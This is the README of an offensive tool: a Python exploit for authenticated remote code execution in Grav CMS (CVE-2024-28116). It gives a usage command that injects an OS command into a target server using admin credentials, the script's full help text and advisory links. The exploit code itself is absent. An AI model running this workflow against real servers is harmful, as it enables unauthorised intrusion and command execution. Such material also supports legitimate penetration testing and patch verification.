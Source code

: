# Grav CMS Remote Code Execution (Authenticated) - CVE-2024-28116

## Info

_This code is an adaptation from [`Grave` Github repository](https://github.com/akabe1/Graver) with some improvements based on [this video](https://ethicalhacking.uk/videos/CVE-2024-28116/)._

Exploit against `Grav CMS` (for versions below `1.7.45`) based on SSTI + RCE vulnerabilities, labeled as `CVE-2024-28116`. This script basically creates a page with the vulnerability, executes it and, finally, deletes the page after the execution.

## Usage
```shell-session
python3 Grav_CMS_RCE.py -t http://10.10.10.10 -u 'admin' -p 'S3cureP4ssw0rd' -x 'ping -c 1 10.10.10.9'
```

Help message:

```
$ python3 Grav_CMS_RCE.py -h

usage: Grav_CMS_RCE.py [-h] -t TARGET [-P PORT] -u USERNAME -p PASSWORD -x COMMAND [--no-delete-file] [--panel-route PANEL_ROUTE] [--no-banner] [--show-warnings]

Grav CMS RCE (Authenticated).

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        URL where Graver CMS is running. Example: http://10.10.10.10
  -P PORT, --port PORT  Port running Graver CMS. Default: 80
  -u USERNAME, --username USERNAME
                        Username to authenticate in Grav CMS
  -p PASSWORD, --password PASSWORD
                        Password for the user in Grav CMS.
  -x COMMAND, --command COMMAND
                        Command to inject/run.
  --no-delete-file      Do NOT delete the generated files. Useful to check command execution output.
  --panel-route PANEL_ROUTE
                        Admin Panel route in Grav CMS. Default: /admin
  --no-banner           Do not print banner
  --show-warnings       Show warnings (if there are).
```

If for some reason we do not want to delete the generated files, we can use `--no-delete-file` flag, visit the page the script indicates and read the command output.

## More info
More CVE-2024-28116/about this exploit info:
- Tested on `Grav CMS v1.7.44 - Admin 1.10.44`.
- [https://github.com/akabe1/Graver](https://github.com/akabe1/Graver)
- [https://nvd.nist.gov/vuln/detail/CVE-2024-28116](https://nvd.nist.gov/vuln/detail/CVE-2024-28116)
- [https://ethicalhacking.uk/videos/CVE-2024-28116/#gsc.tab=0](https://ethicalhacking.uk/videos/CVE-2024-28116/#gsc.tab=0)
- [https://github.com/getgrav/grav/security/advisories/GHSA-c9gp-64c4-2rrh](https://github.com/getgrav/grav/security/advisories/GHSA-c9gp-64c4-2rrh)

## Disclaimer
The owner of this repository is not responsible for the usage of this software. It was made for educational purposes only.

## Licence
- MIT
